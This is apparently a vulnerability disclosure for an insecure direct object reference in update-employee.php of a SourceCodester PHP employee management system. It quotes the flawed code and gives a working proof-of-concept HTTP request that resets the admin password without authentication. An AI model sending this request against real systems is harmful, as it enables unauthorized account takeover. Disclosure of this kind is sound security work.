 # SOURCECODESTER / Employee Task Management System - IDOR update-employee.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /update-employee.php

## Code
### update-employee.php
```php
if(isset($_POST['btn_user_password'])){

    $obj_admin->update_user_password($_POST,$admin_id);
}
```
### classes/admin_class.php
```php
public function update_user_password($data, $id){
		$employee_password  = $this->test_form_input_data(md5($data['employee_password']));
		
		try{
			$update_user_password = $this->db->prepare("UPDATE tbl_admin SET password = :x WHERE user_id = :id ");

			$update_user_password->bindparam(':x', $employee_password);
			$update_user_password->bindparam(':id', $id);
			
			$update_user_password->execute();

			$_SESSION['update_user_pass'] = 'update_user_pass';

			header('Location: admin-manage-user.php');
		}catch (PDOException $e) {
			echo $e->getMessage();
		}
	}
```

## Proof of Concept
**HTTP Request Example**
>admin_id parameter is vulnerable to IDOR
>Note: Attacker can use idor without authentication in burp by not following the redirection
``` http request
POST /update-employee.php?admin_id=1 HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Research-By: NoChizPlz

employee_password=NoChizPlz&btn_user_password=
```

## Screenshot



